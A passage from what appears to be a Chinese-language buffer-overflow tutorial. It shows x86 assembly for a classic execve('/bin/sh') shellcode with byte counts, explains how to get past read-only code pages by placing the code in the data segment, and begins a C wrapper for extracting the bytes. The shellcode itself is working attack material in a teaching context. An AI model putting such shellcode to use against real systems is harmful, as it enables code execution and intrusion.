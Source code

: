 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0x0,0x7(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 4 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0,0xc(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 7 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0xb,%eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,%ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0x8(%esi),%ecx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0xc(%esi),%edx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x1, %eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0, %ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;call&nbsp; &nbsp;-0x2b&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;.string ""/bin/sh""&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 8 bytes

------------------------------------------------------------------------------

&nbsp; &nbsp; 

&nbsp; &nbsp; 这看起来很不错了. 为了确保代码能够正常工作必须编译并执行. 但是还有一个问题.

我们的代码修改了自身, 可是多数操作系统将代码页标记为只读. 为了绕过这个限制我们

必须把要执行的代码放到堆栈或数据段中, 并且把控制转到那里. 为此应该把代码放到数

据段中的全局数组中. 我们首先需要用16进制表示的二进制代码. 先编译, 然后再用gdb

来取得二进制代码.

shellcodeasm.c

------------------------------------------------------------------------------

void main() {

__asm__("

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;jmp&nbsp; &nbsp; 0x2a&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 3 bytes

